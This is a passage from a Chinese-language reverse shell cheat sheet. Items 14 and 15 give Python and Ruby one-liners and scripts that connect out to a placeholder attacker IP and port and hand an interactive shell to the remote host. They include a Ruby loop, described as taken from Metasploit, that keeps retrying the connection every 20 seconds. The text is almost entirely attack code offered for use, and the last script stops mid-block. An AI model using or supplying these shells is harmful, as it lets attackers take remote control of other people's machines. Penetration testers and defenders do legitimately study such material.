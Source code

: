 ##   
  
**14**  
  
  
**Python**  
  
##     Python 反弹shell  
> python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('[: ip]',  [: port]));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);"  
  
  
```
import socket,subprocess,os

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(('[: ip]', [: port]))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(['/bin/bash','-i']);
```  
```
```  
  
  
**15**  
  
  
**Ruby**  
  
  
****> ruby -rsocket -e'f=TCPSocket.open("[: ip]",[: port]).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'  
  
  
> ruby -rsocket -e 'exit if fork;c=TCPSocket.new("[: ip]","[: port]");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'  
  
  
    摘抄msf中GET shell 部分代码。  
```
#!/usr/bin/env ruby

require 'socket'
require 'open3'

#Set the Remote Host IP
RHOST = "[: ip]" 
#Set the Remote Host Port
PORT = "[: port]"

#Tries to connect every 20 sec until it connects.
begin
sock = TCPSocket.new "#{RHOST}", "#{PORT}"
sock.puts "We are connected!"
rescue
  sleep 20
  retry
end

#Runs the commands you type and sends you back the stdout and stderr.
begin
  while line = sock.gets
    Open3.popen2e("#{line}") do | stdin, stdout_and_stderr |
              IO.copy_stream(stdout_and_stderr, sock)
              end  
  end
rescue
  retry
```